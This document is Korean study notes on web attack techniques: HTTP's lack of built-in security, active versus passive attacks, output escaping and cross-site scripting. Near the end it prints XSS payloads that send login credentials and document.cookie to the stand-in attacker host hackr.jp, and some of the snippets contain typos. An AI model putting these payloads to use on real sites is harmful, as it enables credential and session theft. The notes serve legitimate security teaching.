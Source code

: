 # 웹 공격 기술
## HTTP에는 보안 기능이 없다
현재의 웹 사이트는 인증, 세션 관리, 암호화 등의 기능이 필요하지만 HTTP 프로토콜에는 없는 기능입니다.

SSH 프로토콜에는 프로토콜 레벨에서 인증이나 세션 관리 등의 기능이 준비되어 있지만 HTTP에는 없습니다.

웹 애플리케이션의 HTTP 프로토콜에는 보안 기능이 없으므로 개발자가 인증, 세션 관리, 암호화 기능을 설계 및 구현해야 합니다.

## 리퀘스트는 클라이언트에서 변조 가능
서버로 요청이 온 HTTP 리퀘스트에는 변조의 가능성이 있습니다.

쿼리나 폼, HTTP 헤더, 쿠키 등을 경유해서 보내져 웹 애플리케이션에 취약성이 있으면 정보를 도둑맞거나 권한을 빼앗길 수 있습니다.

## 웹 애플리케이션에 대한 공격 패턴
- 능동적 공격 : 공격자가 직접 웹 애플리케이션에 접근해서 공격 코드를 보내는 타입 (SQL 인젝션, OS 커맨드 인젝션)
- 수동적 공격 : 함정을 이용해서 유저에게 공격 코드를 실행시키는 공격 (크로스 사이트 스크립팅)

### 수동적 공격 과정
1. 공격자가 설치한 함정에 유저를 유도합니다. 함정에는 공격 코드를 심어두고 HTTP 리퀘스트를 발생시키기 위한 장치가 되어 있습니다.
2. 사용자가 함정에 걸리면 유저의 브라우저나 메일 클라이언트에서 함정을 열게 됩니다.
3. 유저의 브라우저가 장착된 공격 코드를 포함한 HTTP 리퀘스트를 공격 대상인 웹 애플리케이션에 송신하고 공격 코드를 실행합니다.
4. 공격 코드를 실행하면 웹 애플리케이션 경유한 결과로서 유저가 가지고 있는 쿠키 등의 기밀 정보를 도둑맞거나 로그인 중인 유저의 권한을 빼앗습니다.
- 크로스 사이트 스크립팅(XSS, cross-site scripting)과 크로스 사이트 리퀘스트(CSRF, Cross Site Request Forgery)

### 인트라넷 등에 대한 공격
수동적 공격을 이용하면 인트라넷 같은 인터넷에서 직접 접근할 수 없는 네트워크를 공격할 수 있습니다.

공격자가 설치한 함정에 유저가 액세스 할 수 있는 네트워크라면 인트라넷도 공격할 수 있습니다.

# 출력 값의 이스케이프 미비로 인한 취약성
웹 애플리케이션의 보안 대책 실시하는 장소
- 클라이언트에서 체크
- 서버에서 체크
  - 입력값 체크
  - 출력값 체크

### 클라이언트 체크
클라이언트 체크는 대부분 JS로 합니다. 그러나 변조가 될 가능성이 있기 때문에 보안 대책으로 적합하지 않습니다.

클라이언트 체크는 단지 입력 실수를 체크해주는 정도입니다.

### 서버 체크
서버에서 입력값 체크는 시스템에서 요구하는 값인지 아닌지에 대한 체크나 문자 코드의 체크 등을 실시합니다.

웹 애플리케이션에서 처리한 데이터를 DB나 파일 시스템, HTML, 메일 등에 출력할 때 출력하는 곳에 따라 값을 이스케이프 처리하는

출력 값의 이스케이프가 보안 대책으로 중료합니다. 출력 값의 이스케이프가 미비할 경우 공격자가 보낸 공격 코드가 출력하는 대상에

피해를 입힐 수 있습니다.

## 크로스 사이트 스크립팅
크로스 사이트 스크립팅(XSS, Cross-Site Scripting)은 취약성 있는 웹 애플리케이션을 방문한 사용자의 브라우저에서
부정한 html 태그나 js 등을 동작시키는 공격입니다.

공격자가 작성한 스크립트가 함정이 되고 유저의 브라우저 상에서 움직이는 수동적 공격입니다.

크로스 사이트 스크립팅에 의해서 다음과 같은 영향을 받습니다.
- 가짜 입력 폼 등에 의해서 유저의 개인 정보를 도둑맞습니다.
- 스크립트에 의해 유저의 쿠키 값이 도둑맞거나 피해자가 의도하지 않는 리퀘스트가 송신됩니다.
- 가짜 문장이나 이미지 등이 표시됩니다.

### 크로스 사이트 스크리팅 공격 사례
![img.png](img.png)

위 그림과 같이 클라이언트가 이름과 메일 주소를 입력하고 서버에 데이터를 제출하는 흐름이고 제출된 데이터는 그대로

화면에 표시됩니다. 만약 이름에 "<s>김용환</s>"라고 입력하고 제출하면 출력 화면에서는 취소선이 적용됩니다.

### XSS는 공격자가 함정을 준비하는 수동적 공격
예를 들어 어떤 웹 애플리케이션의 로그인 페이지에서 URL의 쿼리에 ID를 지정해서 폼 내의 문자열을 보완하는 기능이 있다고 가정합니다.

"http://example.jp/login?ID=yama"라고 URL을 입력하면 yama라는 문자열이 폼 내의 ID 입력칸에 미리 저장되는 구조입니다.

이러한 취약성을 파악한 공격자는 스크립트를 작성한후 유저가 다음과 같은 URL을 클릭하도록 유도합니다.

```
http://example.jp/login?ID="><script>var+f=document=>
.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method="get";</script><span+s="
```

URL을 열어도 보기에는 변함이 없지만 설치한 스크립트가 동작하고 있어 유저가 폼에 ID와 패스워드를 입력하면 공각자의

사이트인 hackr.jp로 송신되어 아이디와 비밀번호를 빼앗기게 됩니다. 그리고 그후에 원래 사이트에 ID와 패스워드를 전송하여

로그인을 하면 유저는 정보가 유출된 것을 눈치재지 못할 가능성이 있습니다.

### 유저의 쿠키를 빼앗는 공격
폼에 함정을 설치하는 것 외에도 아래와 같은 스크립트를 추가하여 유저 쿠키를 크로스 사이트 스크립팅으로 빼앗을 수 있습니다.

```
<script src=http://hackr.jp/xss.j></script>
```

위 스크립트는 다음과 같이 코딩되어 있습니다.

```
var content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?>");
document.write(content)
document.write(">");
```

